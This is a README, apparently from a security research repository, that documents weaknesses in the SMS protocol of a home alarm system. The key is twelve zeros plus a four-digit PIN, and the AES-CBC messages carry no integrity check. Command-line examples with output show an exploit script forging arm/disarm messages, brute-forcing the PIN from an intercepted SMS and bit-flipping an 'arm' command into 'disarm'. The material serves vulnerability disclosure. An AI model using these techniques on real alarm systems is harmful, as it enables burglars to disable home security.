

Alert Alarm SMS exploit
#######################

Observation
***********
When turning off an active alarm (ARMED_HOME) an SMS is created similar to
this.

After reverse engineering one can see that the 64 bytes hex string is made up of
two parts. The first part is the IV, which is a random number (coming from
SHA1PRNG) and the second part is the actual message.

.. code-block:: none

           32 bytes   32 bytes
        +-----------+----------+
        | IV        | Message  |
        +-----------+----------+

The encryption in use is AES-CBC and the key used for encryption consists of a
string like this:

.. code-block:: none

        000000000000xxxx

Where "xxxx" is the pin code. This means the the key space is reduced from
128-bits, to only 9999 combinations. The format of the decrypted message is as
follows:

.. code-block:: none

        Bytes:            1   1   1      2       1     2        2        2         2          2   = 16 bytes
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                |SMS Version| i | j | year | month-1 | day | hour | minute | user id | \x00\x00 |
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                                              (hex)

Here ``i`` is the alarm on (0) off (1) and ``j`` is (TODO).

Unconfirmed potential issues
****************************
- Is the solution susceptible to reply attacks? Is is possible to send the same
  message more than once?

Open questions
**************
- Why leverage on SMS from the app, when there already must be a data connection
  with the app?

- 

Script usage
************
Calling with script with no arguments lists all parameters. But to make it
easier to follow along, we've put together a couple of examples below.

Generate a SMS from scratch
===========================
This takes a default data string and creates a valid SMS string, i.e, a real
usable string that will turn on or off the alarm.

.. code-block:: bash

        $ ./aaxploit.py -e -p 1234
        [INFO]: Mode: encryption
        [INFO]: Original SMS:     False
        [INFO]: Msg:              32303131393532313039303230310000
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Crafted SMS:      324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        

Decrypt a SMS from the phone
============================
As an example, take the strings from the example above (having that said, copy
a SMS string from a phone works just as well). In this example we already know
the pin code to turn on/off the alarm and provide that as a parameter.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -p 1234
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   0   1     19     0x5    21     09       02        01

Bruteforce an encrypted SMS
===========================
Here we pretend that we don't know the key (pin code to turn on/off the alarm),
but we have gotten hold of the encrypted SMS. By running the bruteforce attack
we try to find the correct key and pin to turn on/off the alarm.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -b
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Running bruteforce ...
        [INFO]: Probably the correct key: 30303030303030303030303031323334 gives pin: 1234

As we can see, we found the correct key/pin code! Note that the pin code is the
same as used on the real physical burgular alarm at the owner house. If, if a
thief break in he can enter this pin code and the alarm never goes off.

Flip a bit in the encrypted message
===================================
Since AES-CBC is malleable, we can flip a bit in the IV which will be directly
reflected on the decrypted message. A man in the middle can use this to either
change a message from "Turn on alarm" to a "Turn off alarm" or vice versa.
I.e., notice that here one doesn't even have to decrypt the message.

.. code-block:: bash

        $ ./aaxploit.py --input 324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d --flip 112 
        [INFO]: Mode: decryption
        [INFO]: Original SMS:     324e8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
        [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
        [INFO]: IV:               324e8a68e383f8d6f3117af17d7638fb
        [INFO]: Modified SMS:     324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713

if we take the "Modified SMS" and decrypt it, we can see that the "i" field has
been changed (from "0" to "1", compare with message above).

.. code-block:: bash

       $ ./aaxploit.py --input 324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713 -d -p 1234 
       [INFO]: Mode: decryption
       [INFO]: Original SMS:     324f8a68e383f8d6f3117af17d7638fb6cee18510bd876b03b6131eddedb2713
       [INFO]: Msg:              6cee18510bd876b03b6131eddedb2713
       [INFO]: IV:               324f8a68e383f8d6f3117af17d7638fb
       [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
       [INFO]:       2   1   1     19     0x5    21     09       02        01
                        /\
                         |----- changed from 0 to 1

Summary
*******
Weaknesses:
- AES key (128bits) is made up from "000000000000" + the pin code, i.e, brute
  force is trivial.

- Using plain AES-CBC with no integrity checking. This means that man in the
  middle can modify messages. AES-CBC is malleable, so changing a bit in the IV
  changes a bit in the plaintext/ciphertext. Which means it is possible for a
  man in the middle to change an SMS meant to turn on the alarm to instead turn
  it off by just flipping some bits in the IV.

The security of the solution relies on
  a) the pin code and
  b) the SMS senders phone number
  c) that no-one is able to get hold of the SMS sent.

In fact, one can argue that the security only relies on "c", since if one get
hold of "c", then it's trivial to figure out "a", that is basically what
the script aaxploit.py does. "b" on the other hand is typically available in
phonebooks etc, i.e., it's usually not hard to figure out the phone numbers to
the owner of a house.

